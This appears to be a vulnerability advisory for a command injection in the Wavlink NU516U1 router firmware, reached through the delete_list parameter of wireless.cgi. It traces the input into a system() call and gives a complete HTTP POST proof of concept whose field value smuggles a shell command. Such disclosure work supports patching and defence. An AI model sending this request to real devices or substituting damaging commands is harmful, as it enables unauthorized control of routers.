



# Wavlink NU516 DeleteMac
### Overview
vendor: Wavlink

product: NU516U1

version: M16U1_V240425

type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the delete_list parameter in the sub_402D1C function of the file wireless.cgi.
### Vulnerability details
In the ftext function, obtain the value of the page parameter via user input.


Setting the value of the page parameter to DeleteMac will call the sub_402D1C function.



In the sub_402D1C function, the value of the delete_list parameter is obtained via a post request.



The value of the delete_list parameter is passed to the v15 variable via the sprintf function.


The v15 variable is passed into the sub_405314 function, followed by the byte_41BCB4 variable, which is ultimately passed as a parameter into the system function.




### POC
```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 39
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=303373432
Connection: keep-alive

page=DeleteMac&delete_list=$(ls>/1.txt)
```
